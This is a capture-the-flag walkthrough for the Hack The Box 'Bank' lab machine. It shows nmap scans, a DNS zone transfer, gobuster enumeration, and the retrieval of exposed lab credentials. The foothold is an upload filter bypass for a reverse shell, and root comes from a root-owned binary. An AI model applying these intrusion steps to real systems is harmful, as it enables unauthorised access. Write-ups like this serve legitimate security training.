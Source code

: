 # Loot


## Box Info
- Name : Bank
- IP : 10.10.10.29
- Level : Easy

## Creds

| Service | Username | Password | Description |
| --- | --- | --- | ---| 
| Login Creds | chris@bank.htb | !##HTBB4nkP4ssw0rd!## | Found in /balance-transfers |
# Enumeration

## Nmap

#### Quick Scan
```bash
sudo nmap --max-retries 0 -p- 10.10.10.29 -oN nmap/quick_scan                                130 ↵
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-08 03:15 EDT
Warning: 10.10.10.29 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.29
Host is up (0.19s latency).
Not shown: 61470 closed ports, 4062 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

```

#### Targeted Scan
- Enumerating ports
```bash
cat nmap/quick_scan | grep open | awk -F/ '{print $1}' ORS=','
22,53,80,
```
- Custom scripts and version enumeration
```bash
sudo nmap -sC -sV -p 22,53,80 10.10.10.29 -oA nmap/targeted_scan
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-08 03:18 EDT
Nmap scan report for 10.10.10.29
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.39 seconds

```

**Quick Glance**
- DNS TCP open, can use dig for zone transferring
- Apache 2.4.7 - Ubuntu

## Website
![[Pasted image 20210408032039.png]]
- Default apache page, therefore virtual hosts must be present,  enumerating other hosts using zone transfering.
```bash
dig axfr @10.10.10.29 bank.htb   

; <<>> DiG 9.16.13-Debian <<>> axfr @10.10.10.29 bank.htb
; (1 server found)
;; global options: +cmd
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 5 604800 86400 2419200 604800
bank.htb.               604800  IN      NS      ns.bank.htb.
bank.htb.               604800  IN      A       10.10.10.29
ns.bank.htb.            604800  IN      A       10.10.10.29
www.bank.htb.           604800  IN      CNAME   bank.htb.
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 5 604800 86400 2419200 604800
;; Query time: 184 msec
;; SERVER: 10.10.10.29#53(10.10.10.29)
;; WHEN: Thu Apr 08 03:22:27 EDT 2021
;; XFR size: 6 records (messages 1, bytes 171)

```

- New vhosts:
	- chris.bank.htb
	- ns.bank.htb
	- www.bank.htb
- Reloading www.bank.htb gives us new page
![[Pasted image 20210408034851.png]]
- chris.bank.htb gives us the default apache page.

### login.php
- Seems like a PHP based website

## Gobuster
```bash
gobuster dir -u http://bank.htb -w $MED_WORD -t 75 -o gb/bank_htb
/uploads              (Status: 301) [Size: 305] [--> http://bank.htb/uploads/]
/login.php            (Status: 200) [Size: 1974]
/support.php          (Status: 302) [Size: 3291] [--> login.php]
/assets               (Status: 301) [Size: 304] [--> http://bank.htb/assets/]
/index.php            (Status: 302) [Size: 7322] [--> login.php]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/inc                  (Status: 301) [Size: 301] [--> http://bank.htb/inc/]
/server-status        (Status: 403) [Size: 288]
/balance-transfer     (Status: 301) [Size: 314] [--> http://bank.htb/balance-transfer/]

```

- We get a page called balance-transfer which have encrypted usernames and passwords of all the transactions# Foothold

![[Pasted image 20210408045412.png]]
- We can see most of the files are around size : 585,584,583,582,581
- If we can find an anomaly
```bash
curl http://bank.htb/balance-transfers > bank_transfers
cat balance_transfers | grep -v "584\|585\|582\|583\|581"    
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /balance-transfer</title>
 </head>
 <body>
<h1>Index of /balance-transfer</h1>
  <table>
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="68576f20e9732f1b2edc4df5b8533230.acc">68576f20e9732f1b2edc4df5b8533230.acc</a></td><td align="right">2017-06-15 09:50  </td><td align="right">257 </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.7 (Ubuntu) Server at bank.htb Port 80</address>
</body></html>
```

- We can see `68576f20e9732f1b2edc4df5b8533230.acc` is around size 257.
`curl http://bank.htb/balance-transfers/68576f20e9732f1b2edc4df5b8533230.acc -o file.txt`
- file.txt has creds of chris.
- Login and go to support.php
- We can upload file, but only accepting image files. In source code, it is mentioned in \[DEBUG\] --> .htb files can be uploaded to be executed as php
- We can renmae our reverseshell to .htb, we can upload and get a reverse shell. Start listener on local machine before hand.
# Privilege Escalation

- We are currently www-data, we can cat out /home/chris/user.txt
- When we traverse backwards, we can see interesting directory in /var --> /var/htb
- There is a binary which is owned by root:root and can be executed by us.
- Execute and it asks are we sure we want get root shell \[y/n\]
- Press y and we can get rootshell. Cat out the root.txt